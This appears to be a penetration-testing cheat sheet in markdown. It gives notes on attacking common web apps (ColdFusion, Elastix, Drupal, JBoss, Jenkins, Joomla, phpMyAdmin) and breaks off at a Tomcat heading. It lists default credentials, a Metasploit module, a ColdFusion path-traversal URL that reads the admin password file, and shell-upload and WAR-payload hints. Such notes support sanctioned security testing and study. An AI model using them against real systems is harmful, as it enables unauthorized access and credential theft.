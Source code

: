 	
# Web app specific  
### Default Creds 

    https://cirt.net/passwords
    https://github.com/danielmiessler/SecLists/tree/master/Passwords/Default-Credentials
    
### Adobe Coldfusion 
https://nets.ec/Coldfusion_hacking   
https://www.drchaos.com/post/a-walk-down-adversary-lane-coldfusion-v8

    Metasploit - Determine version
    /CFIDE/adminapi/base.cfc?wsdl
    Version 8 Vulnerabilities
    Fckeditor: use exploit/windows/http/coldfusion_fckeditor

LFI 

    http://server/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../ColdFusion8/lib/password.properties%00en

### Elastix 

    default login are admin:admin at /vtigercrm/
    able to upload shell in profile-photo
    Examine configuration files - Generic
    Examine httpd.conf/ windows config files 
    
### Drupal
[droopsescan](https://github.com/droope/droopescan) 

    /CHANGELOG.txt to find version

### JBoss

    JMX Console http://IP:8080/jmxconcole/
    WAR File payload   

### Jenkins
[pwn jenkins](https://github.com/Scr1ptK1ddie/pwn_jenkins)   

### Joomla 

    admin page: /administrator
    other pages: configuration.php, diagnostics.php, joomla.inc.php, config.inc.php   
    
### PHPMyAdmin

    Default password root:root, pma:
    Brute force with Burp or phpmyadmin python script

### Tomcat 
